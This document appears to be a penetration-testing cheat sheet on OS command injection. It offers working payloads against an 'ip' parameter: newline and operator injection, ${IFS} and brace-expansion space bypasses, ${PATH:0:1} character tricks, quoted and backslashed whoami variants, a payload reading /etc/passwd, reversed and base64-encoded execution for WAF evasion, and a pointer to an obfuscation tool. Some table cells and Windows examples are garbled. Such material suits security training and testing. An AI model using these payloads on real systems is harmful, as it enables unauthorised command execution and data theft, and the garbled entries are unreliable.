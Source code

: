 
| **Injection Operator** | **Injection Character** | **URL-Encoded Character**   | **Executed Command**                       |
| ---------------------- | ----------------------- | --------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | %3b                         | Both                                       |
| New Line               | `\n`                    | ccccccccccccccccccccccccccc | Both                                       |
| Background             | `&`                     | %26                         | Both (second output generally shown first) |
| Pipe                   | \|                      | %7c                         | Both (only second output is shown)         |
| AND                    | `&&`                    | %26%26                      | Both (only if first succeeds)              |
| OR                     | \|\|                    | %7c%7c                      | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | %60%60                      | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | %24%28%29                   | Both (Linux-only)                          |
### Blacklisted Characters

Try each of the above to find out which character is allowed, without an additional command. For example, the following is allowed (\n) where as all the other characters are blacklisted:

```bash
ip=127.0.0.1%0a
```

Next, add a space (+) to the command to verify if spaces are blacklisted. If this returns an error, spaces are black listed:

```bash
ip=127.0.0.1%0a+
```

### Using ${IFS}

A Linux Environment Variable using a space and a tab, and can be used for between command arguments. 

```bash
ip=127.0.0.1%0a${IFS}
```

The `Base Brace Expanse` automatically adds spaces between arrangements. E.g:

```bash
ip=127.0.0.1%0a{ls,-la}
ip=127.0.0.1%0a{ls,-la,index.php}
```

Using `${PATH:0:1}` add the character `/` to the path
Using `${LS_COLORS:10:1}` add the character `;` to the path

These can be useful when the `/` and `;` are blacklisted:

```bash
garffff@garffff:~$ echo ${PATH:0:1}
/
garffff@garffff:~$ echo ${LS_COLORS:10:1}
;
```

To look inside the directory:

```bash
ip=127.0.0.1%0a{ls,-la,${PATH:0:1}home${PATH:0:1}garffff}
```
### Blacklisted Commands

Common Command Bypasses. We cannot mix and match these, for example, if we use the `'` we have to stick with it.

Linux

```bash
whoami:
w'h'o'am'i
w"h"o"am"i
who$@ami
w\ho\am\i
```

Windows:

```bash
whomai:
who$@ami
w\ho\am\i
```

To read the passwd file, it would look something like this:

```bash
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}etc${PATH:0:1}passwd
```

# Command Obfuscation

Useful when bypassing WAFs.

Linux:

The following replaces all uppercase characters with lowercase:

```bash
The following replaces all uppercase characters with lowercase:
(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

This prints whoami:
(a="WhOaMi";printf %s "${a,,}")
```

Windows:

```bash
WhOaMi
```
#### Reversed Commands

The following will issue the `whoami` command when the input is reversed

```bash
echo 'whoami' | rev
$(rev<<<'imaohw')
```

Example:

```bash
ip=127.0.0.1%0a$(rev<<<'imaohw')
```

Using base64

Use base64 to encode the command:

```bash
echo -n 'whoami' | base64
d2hvYW1p

$(base64 -d<<<d2hvYW1p)
```

Use it in the command injection:

```bash
ip=127.0.0.1%0a$(base64%09-d<<<d2hvYW1p)
```

The following tool can be used to obfuscate bash commands:
https://github.com/Bashfuscator/Bashfuscator